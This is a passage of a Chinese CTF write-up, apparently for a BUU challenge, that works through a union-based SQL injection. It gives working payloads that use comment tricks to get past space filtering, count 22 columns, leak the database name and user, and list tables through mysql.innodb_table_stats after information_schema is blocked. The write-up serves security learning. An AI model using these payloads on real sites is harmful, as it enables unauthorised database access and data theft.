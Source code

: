 *   有回显，继续增加列数，，，一直加加加，居然加到了22。。。 不会怀疑人生吗。。。

    ```
    -1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1 
    ```

![在这里插入图片描述](img/7e4b09d660099adcdece2f2db70a4a66.png)

*   同时确认回显位在2、3。先看看数据库和用户名。

    ```
    -1'union/**/select/**/1,database(),user(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1 
    ```

![在这里插入图片描述](img/e8692be7ec47b7473c0051e18d8fd829.png)

*   可行，继续查看表，发现提示报错，拆开测试发现or等被过滤，即无法使用information_schema库。好像是因为BUU平台的原因，没有[聊一聊bypass information_schema](https://www.anquanke.com/post/id/193512) 里提到的库，所以不能用。

*   再去看上次写安恒月赛提到的库，也都提示不存在。。。

*   再次中断，，，看wp用的是 `mysql.innodb_table_stats` 。所以payload为

    ```
    -1'/**/union/**/select/**/1,database(),(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1 
    ```

    ![在这里插入图片描述](img/d0ffd90bbf2734295dcf64bde1995ede.png)
